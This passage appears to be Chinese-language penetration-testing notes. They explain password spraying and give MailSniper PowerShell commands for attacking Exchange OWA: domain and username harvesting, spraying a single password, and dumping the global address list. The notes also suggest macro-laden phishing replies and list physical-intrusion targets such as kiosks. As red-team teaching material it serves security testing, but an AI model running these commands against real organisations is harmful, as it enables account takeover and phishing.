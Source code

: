 为了防止暴力破解导致的账户锁定，而你又知道账户的初始化密码，可能存在大量未修改密码账户，因此就可以针对尝试使用这一个密码尝试登录多个用户名。

密码喷洒密码喷洒和暴力破解区别是什么呢？前者是一个密码对多个账户进行登录，后者是一个账户尽可能使用多个密码尝试登录。

PS：示例待更新，因为要把 Exchange 和 Office 365 做成专题。这里举例可以换成 RDP、SSH 等等

##### Exchange

[https://github.com/dafthack/MailSniper](https://github.com/dafthack/MailSniper)

导入脚本。

```plaintext
ipmo .\MailSniper.ps1
```

Invoke-DomainHarvestOWA 获取 NetBIOS 名。

```powershell
Invoke-DomainHarvestOWA -ExchHostname <host>
```

Invoke-UsernameHarvestOWA 验证邮箱名。

```powershell
Invoke-UsernameHarvestOWA -ExchHostname <host> -UserList .\userName.txt -OutFile SprayedResult-ValidUserames.txt
```

如果目标有多个域，可以用 -Domain 指定子域去验证邮箱名。

```powershell
Invoke-DomainHarvestOWA -ExchHostname <Host> -Domain <domain> -UserList .\userName.txt -OutFile SprayedResult-ValidUserames.txt
```

喷洒密码。

```powershell
Invoke-PasswordSparyOWA -ExchHostname <Host> -UserList .\userName.txt -Password <Password> -OutFile SprayedResult-ValidAccounts.txt
```

*OPSEC：每次失败都有记录，达到一定次数触发账户锁定策略。*

一旦获取一个有效账户后可以去下载所有 Email 地址 重复枚举其密码。

```powershell
Get-GlobalAddressList -ExchHostname <Host> -UserName <Domain>\<username> -Password <Password> -OutFile SprayedResult-GlobalMailAddressList.txt
```

获取到一堆有效账户后，可以登录去搜敏感信息，甚至主动发邮件钓鱼，比如把要回复的邮件原本附件中添加宏。

##### Office 365

### 1.3 近源渗透⚒️

物理渗透、物理攻击、近源渗透，这几个的意思都是在接近目标进行安全测试。不光要会攻击，有时候涉及到开锁、复制卡这种硬件技能。🤣

需要寻找的目标：

-   办公区开放使用的自助终端机，比如申请门禁，自助挂号
-   大厅开放的信息展示大屏，播放视频用，但支持触屏功能
